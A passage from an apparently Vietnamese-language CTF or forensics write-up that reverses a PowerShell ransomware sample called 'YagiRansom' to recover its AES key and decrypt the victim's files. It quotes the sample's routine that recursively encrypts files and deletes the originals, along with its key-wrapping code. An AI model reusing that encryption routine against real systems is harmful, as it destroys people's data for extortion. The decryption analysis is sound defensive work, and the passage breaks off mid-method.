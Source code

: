 ```powershell
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
```
- Tập trung vào `Invoke-AESEncryption -Key $WiETm -Path $i`, ta thấy chúng lấy các file có trong thư mục mã hoá bằng key là biến  $WiETm được hash sha256.
- Tuy nhiên key $WiETm hiện tại nó chỉ liên quan đến đoạn random : 
```$WiETm = -join ( (48..57) + (65..90) + (97..122) | Get-Random -Count 24 | % {[char]$_})```
- Nếu sử dụng phương pháp bruteforce sẽ không khả thi, vì độ dài quá lớn.
- Chúng ta còn 1 cách khác là tìm từ các biến đã có:

```powershell
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" 
$Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
$cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ;
$cVl = R64Encoder -t $cvf
Invoke-AESEncryption -Key $WiETm -Path $i
```
- Theo như đã biết thì biến `$cVl, $OgE, $zVSza, $7VEq` đã biết sau khi decrypt dữ liệu từ : "> $cVl > $OgE > $zVSza > $7VEq"
- Hướng giải quyết sẽ là `Tìm $Uz19o => Tìm $cvf => Tìm $WiETm => Decrypt file`
#### Tìm $Uz19o

```powershell
PS C:\Users\ADMIN> $zVSza = "win-ho5dpb1fvnd"
PS C:\Users\ADMIN> $OgE = "administrator"
PS C:\Users\ADMIN> $7VEq = "00:09 - 19/09/24"
PS C:\Users\ADMIN> $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
PS C:\Users\ADMIN> $Uz19o
0009190924win-ho5dpb1fvndadministrator
```
- Ta có giá trị của `$Uz19o` là `0009190924win-ho5dpb1fvndadministrator`

#### Tìm $cvf
- Biến $cvf là đầu vào của biến $cVl trong hàm R64Encoder nên ta chỉ cần decode ngược lại là xong
